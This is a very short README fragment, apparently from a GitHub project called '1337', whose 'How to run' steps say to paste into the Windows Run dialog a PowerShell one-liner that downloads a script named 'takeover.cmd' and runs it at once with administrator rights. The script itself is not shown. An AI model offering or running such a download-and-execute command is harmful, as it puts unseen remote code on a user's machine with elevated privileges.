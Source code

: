 **How to run:**
- Win+R
- Paste:
-   *cmd /k powershell  -command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/Fidasek009/1337/main/takeover.cmd -OutFile .\takeover.cmd; .\takeover.cmd"*
- Ctr+Shift+Enter
